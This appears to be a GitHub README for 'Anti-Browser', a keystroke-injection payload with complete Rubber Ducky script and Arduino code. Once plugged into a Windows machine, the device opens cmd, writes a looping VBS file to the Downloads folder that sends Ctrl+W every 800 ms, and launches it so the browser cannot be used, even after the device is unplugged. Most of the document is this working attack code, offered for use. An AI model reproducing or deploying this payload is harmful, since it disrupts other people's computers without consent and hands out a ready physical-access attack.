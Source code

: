 # Anti-Browser
This script creates a vbs file that sends CTRL+W over and over very fast and, therefore, it will be impossible to use the browser. Furthermore, you can unplug the Rubber Ducky after the vbs is executed, because the thing that sends the keystrokes is the vbs file and not the Ducky.
<h2>About...</h2>

Version: 1.0

Author: <a href="https://github.com/BlueArduino20">BlueArduino20</a>

Time needed to complete the script injection: about 1.5 seconds!


<h2>Code for Rubber Ducky</h2>

<pre><code>ESC
DELAY 500
GUI r
DELAY 200
STRING cmd
ENTER
DELAY 200
STRING cd %userprofile%/Downloads
ENTER
STRING copy con CW.vbs
ENTER
STRING do
ENTER
STRING Set objShell = CreateObject("WScript.Shell")
ENTER
STRING WScript.Sleep 800
ENTER
STRING objShell.SendKeys "^{W}"
ENTER
STRING loop
CTRL z
DELAY 100
ENTER
STRING start CW.vbs && exit
ENTER
</pre></code>

<h2>Code for Arduino</h2>

<pre><code>#include "Keyboard.h"

void typeKey(int key)
{
  Keyboard.press(key);
  delay(50);
  Keyboard.release(key);
}

/* Init function */
void setup()
{
  // Begining the Keyboard stream
  Keyboard.begin();

  // Wait 500ms
  delay(500);

  delay(500);

  Keyboard.press(KEY_LEFT_GUI);
  Keyboard.press('r');
  Keyboard.releaseAll();

  delay(200);

  Keyboard.print("cmd");

  typeKey(KEY_RETURN);

  delay(200);

  Keyboard.print("cd %userprofile%/Downloads");

  typeKey(KEY_RETURN);

  Keyboard.print("copy con CW.vbs");

  typeKey(KEY_RETURN);

  Keyboard.print("do");

  typeKey(KEY_RETURN);

  Keyboard.print("Set objShell = CreateObject(\"WScript.Shell\")");

  typeKey(KEY_RETURN);

  Keyboard.print("WScript.Sleep 800");

  typeKey(KEY_RETURN);

  Keyboard.print("objShell.SendKeys \"^{W}\"");

  typeKey(KEY_RETURN);

  Keyboard.print("loop");

  Keyboard.press(KEY_LEFT_CTRL);
  Keyboard.press('z');
  Keyboard.releaseAll();

  delay(100);

  typeKey(KEY_RETURN);

  Keyboard.print("start CW.vbs && exit");

  typeKey(KEY_RETURN);

  // Ending stream
  Keyboard.end();
}

/* Unused endless loop */
void loop() {}</pre></code>
